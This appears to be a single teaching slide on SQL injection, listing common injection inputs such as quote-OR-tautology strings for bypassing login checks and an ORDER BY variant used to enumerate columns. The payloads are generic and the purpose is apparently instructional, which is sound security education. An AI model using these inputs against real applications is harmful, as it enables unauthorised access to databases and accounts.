

# Structured Query Language
Common Injection inputs

‘ OR 1=‘1;##
‘ OR 1=‘1 LIMIT 1;##
‘ OR 1=‘1 ORDER BY [number];##
Sort the output by the column index.
Usually alphanumerical sorting.
This is usually used for Enumeration